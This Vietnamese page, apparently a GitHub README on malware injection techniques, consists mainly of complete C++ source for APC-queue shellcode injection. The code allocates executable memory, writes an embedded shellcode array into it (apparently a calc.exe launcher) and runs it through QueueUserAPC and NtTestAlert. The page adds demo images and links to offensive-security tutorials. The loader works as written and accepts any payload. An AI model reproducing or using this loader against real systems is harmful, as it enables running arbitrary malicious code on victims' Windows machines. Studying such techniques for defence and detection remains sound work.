

## Mã nguồn 

```C++
#include<iostream>
#include<Windows.h>
#include<winternl.h>
#include<ntstatus.h>	
#include<TlHelp32.h>
#pragma comment(lib, "ntdll")	

typedef NTSTATUS(NTAPI* PNtTestAlert)(VOID);	

unsigned char shellcode[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";

int main(int agrc, char* argv[]) {
	HMODULE ntdll = GetModuleHandleA("ntdll.dll");	
	if (!ntdll) {
		printf("GetModuleHandleA failed. Error: %d\n", GetLastError());
	}
	else {
		PNtTestAlert NtTestAlert = (PNtTestAlert)GetProcAddress(ntdll, "NtTestAlert");
		if (!NtTestAlert) {
			printf("GetProcAddress failed. Error: %d\n", GetLastError());
			return -1;
		}
		ULONG_PTR uiVirtualAddress = (ULONG_PTR)VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
		if(!uiVirtualAddress){
			printf("VirtualAlloc failed. Error: %d\n", GetLastError());
			return -1;
		}	
		else {
			HANDLE hProcess = GetCurrentProcess();	
			if(!WriteProcessMemory(hProcess, (LPVOID)uiVirtualAddress, shellcode, sizeof(shellcode), NULL)){
				printf("WriteProcessMemory failed. Error: %d\n", GetLastError());
				return -1;
			}
			else {
				printf("Shellcode written to memory at address: 0x%p\n", (LPVOID)uiVirtualAddress);
				HANDLE hThread = GetCurrentThread();
				if (!hThread) {
					printf("GetCurrentThread failed. Error: %d\n", GetLastError());
				}
				else {
					if(QueueUserAPC((PAPCFUNC)uiVirtualAddress, hThread, NULL) == 0){
						printf("QueueUserAPC failed. Error: %d\n", GetLastError());
						return -1;
					}
					else {
						printf("APC queued successfully. Triggering NtTestAlert to execute shellcode...\n");
						NtTestAlert();	
					}
				}
			}
		}
	}
}
```

## Demo



## Tài liệu tham khảo

https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls
http://undocumented.ntinternals.net/

https://cocomelonc.github.io/tutorial/2021/11/11/malware-injection-3.html

https://cocomelonc.github.io/tutorial/2021/11/22/malware-injection-5.html

https://cocomelonc.github.io/tutorial/2021/11/20/malware-injection-4.html

https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection

https://hackmd.io/_ef-KF-9RY6Hqrrlr5bTZw#C%C3%A1c-b%C6%B0%E1%BB%9Bc-th%E1%BB%B1c-hi%E1%BB%87n-APC-Queue-Injection-th%C3%B4ng-qua-NtTestAlert